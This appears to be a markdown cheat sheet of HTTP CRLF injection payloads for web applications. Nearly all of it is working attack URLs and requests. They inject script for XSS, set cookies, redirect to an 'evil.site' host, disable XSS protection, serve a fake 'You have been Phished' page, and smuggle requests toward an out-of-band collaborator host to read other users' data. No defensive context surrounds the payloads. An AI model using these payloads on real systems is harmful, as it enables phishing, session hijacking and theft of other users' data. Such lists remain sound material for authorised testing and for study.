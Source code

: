# Content 



## HTTP/1.1 CRLF injeciton
**where to inject** 
- url path
```
http://www.example.net/%0D%0A
```
- parameter
```
http://www.example.net/?param=value%0D%0A
```

### **CRLF injeciton can lead to**
#### XSS
```
http://www.example.net/?name=Bob%0D%0A<script>alert(document.domain)</script>
```
#### **add a header**

- add cookie

```
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue   
```


- open redirect
```
http://www.example.net/%0D%0ALocation:http://evil.site    
```
- XSS Bypass
```
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e     

```
- Write HTML
```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E 
```

#### **Request Smuggling**

if u can add headers 
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1

HTTP/1.1 200 OK
Connection: keep-alive
```

try to make smuggle request 
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1
```

or try to read other user's data
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1
```
